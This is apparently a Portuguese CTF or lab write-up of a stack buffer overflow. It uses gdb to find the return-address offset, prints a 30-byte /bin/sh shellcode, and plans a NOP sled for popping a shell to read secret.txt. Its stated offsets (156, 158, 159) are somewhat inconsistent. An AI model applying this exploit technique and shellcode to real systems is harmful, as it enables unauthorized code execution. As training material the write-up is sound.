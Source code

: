 Realizando a análise do binário com `gdb`. Abrimos o programa com:

```bash
gdb -q buffer-overflow
```
Como temos que provocar um estouro no buffer de 140 bytes, precisamos encontrar o offset até sobrescrever o RIP. Considerando o buffer de 140 bytes, o saved RBP (8 bytes) e eventual padding, testando tamanhos crescentes de entrada para descobrir o ponto em que o RIP é sobrescrito.

Executando:

```gdb
run $(python -c "print('A'*156)")
```

obtemos:

```
Here's a program that echo's out your input
AAA... (156 vezes)
Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()
```

Ou seja, o valor `0x41414141` mostra que os `A` chegaram a uma região usada como endereço de retorno.

Ao testar outros tamanhos, chegamos a:

```
Starting program: ... $(python -c "print('A'*159)")
Here's a program that echo's out your input
AAA... (159 vezes)
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
```

Isso indica que nos aproximamos do local de retorno. A partir desses testes determinamos o offset necessário para controlar o ponteiro de retorno e retornar ao início do nosso payload (shellcode).

---

### Construindo o payload

Ao totalizar 158 bytes para atingir o endereço de retorno correto e executar um shell para ler o `secret.txt`.

Calculei o tamanho do shellcode dado pelo exercício com:

```python
shellcode = len("\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05")
print(shellcode)
```

Resultado: `30` bytes.

Então a ideia foi: `30 (shellcode) + X (NOP sled) + Y (preenchimento/endereço) = 158`.

Optei por seguir a instrução do exercício para usar um NOP-sled e posicionar o endereço de retorno apontando para dentro do sled.
